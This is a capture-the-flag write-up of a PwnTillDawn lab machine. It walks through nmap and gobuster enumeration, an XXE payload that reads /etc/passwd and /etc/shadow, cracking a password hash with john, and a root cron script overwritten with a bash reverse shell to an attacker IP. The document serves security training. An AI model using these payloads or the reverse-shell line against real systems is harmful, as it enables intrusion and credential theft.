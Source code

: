 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/406bef52-c8ba-4f03-8c11-f78603f09605)

first enumeration with nmap 

```
# Nmap 7.93 scan initiated Fri Jun 16 04:36:53 2023 as: nmap -sC -sV -oN normal.txt -p 22,2623,8089 -Pn 10.150.150.226
Nmap scan report for 10.150.150.226
Host is up (0.18s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 31484661d84e090ee050c35bb0f36b5e (RSA)
|   256 12bb91dab9ad18dd440b3b6cd63a9783 (ECDSA)
|_  256 1408ae353dba8c46e9f7cd49c9edb31e (ED25519)
2623/tcp open  http     Werkzeug httpd 0.14.1 (Python 2.7.15rc1)
|_http-server-header: Werkzeug/0.14.1 Python/2.7.15rc1
|_http-title: 404 Not Found
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-10-25T09:41:05
|_Not valid after:  2022-10-24T09:41:05
|_http-server-header: Splunkd
|_http-title: splunkd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 16 04:37:40 2023 -- 1 IP address (1 host up) scanned in 47.08 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/77981ccb-0250-490b-9c12-514974a2411c)

noticed a web server running on port `2623`, opening it on a browser got a 404 rsponse... let's fuzz

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/pwntilldawn/10.150.150.226]
└─$ gobuster dir -u http://10.150.150.226:2623/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -k -b 403,404 -x php,txt 2>/dev/null
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.150.150.226:2623/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/06/17 00:25:02 Starting gobuster in directory enumeration mode
===============================================================
/xml                  (Status: 200) [Size: 915]
/doc                  (Status: 200) [Size: 456]
/lookup               (Status: 200) [Size: 172]
/cookie               (Status: 200) [Size: 111]
/console              (Status: 200) [Size: 1985]
/evaluate             (Status: 200) [Size: 111
[***]
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/41a9c01e-0992-4145-b8af-eaf3c64a7bf1)

navigating to the `/xml` dir we can see it's talking about xml parsing inputs. lt's check the source page.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b08c9a88-86b4-4ee9-b4d6-9c00348719c6)

checking th source page, we can see an `XXE` payload. let's intercept request with burp and see what we have.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/42f6337e-667e-49ac-bc71-daf40aceaffd)

intercepting request with burp and using payload 
```<!DOCTYPE+foo+[+++++<!ELEMENT+foo+ANY+>+++<!ENTITY+xxe+SYSTEM+"file%3a///etc/passwd"+>]><foo>%26xxe%3b</foo>```
we read the `/etc/passwd` file. let's try read the `/etc/shadow` file.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/28ea6a91-b038-4c4e-99d3-6aadd7064d41)

Bankai!!! we could read the `/etc/shadow` file.  we can see the password hashes of the users available. copied the password hash for user `monsieurcandle-server`.

```
MonsieurCandie:$6$LGidv.6A$9txwQnhm9MBCW7bgZ9Lz/syEeH5h6CFrEZc3wb/FZCUOg1SUXysjLYrFu0NmFmKzV2CvyRfGkD3LBPe1caWOV1:17841:0:99999:7:::
```
let's crack the hash using john.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/pwntilldawn/10.150.150.226]
└─$ john --show hash.txt
MonsieurCandie:sunshine:17841:0:99999:7:::

1 password hash cracked, 0 left
```
password cracked to `sunshine`. let's login ssh using this creds.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c0769d62-b15d-4306-9bd8-3a6258395368)

bingo we are in.



## Privilege Escalation

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d3cec133-ec5f-46e7-9d9f-67490c99f70e)

running pspy, we can see a cronjob file `SrvMantainance.sh` in running as root in `/tmp` dir. let's check it out.

```
MonsieurCandie@MonsieurCandie-Server:/tmp$ ls -al SrvMantainance.sh 
-rwxrwxrwx 1 root root 89 Apr 28  2020 SrvMantainance.sh
MonsieurCandie@MonsieurCandie-Server:/tmp$ nano SrvMantainance.sh
MonsieurCandie@MonsieurCandie-Server:/tmp$ cat SrvMantainance.sh 
#!/bin/bash
# This script is meant for maintanance only and will be executed regularly by the system

/bin/bash -c "/bin/bash -i >& /dev/tcp/10.66.66.10/1337 0>&1"
MonsieurCandie@MonsieurCandie-Server:/tmp$
```
checking the file perm, we have write,read,execute access to the file, so modified the file and put a reverse shell payload in it, fire ncat listener and wait for a min.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/pwntilldawn/10.150.150.226]
└─$ ncat -lnvp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.150.150.226.
Ncat: Connection from 10.150.150.226:42190.
bash: cannot set terminal process group (5491): Inappropriate ioctl for device
bash: no job control in this shell
root@MonsieurCandie-Server:/tmp# cd
cd
root@MonsieurCandie-Server:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@MonsieurCandie-Server:~# 
```
Bankai!!! we got reverse shell as root.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e506b26c-14c3-4435-af4d-e6efa1e816c7)

and we are through 🤓 easy box yeah 😉


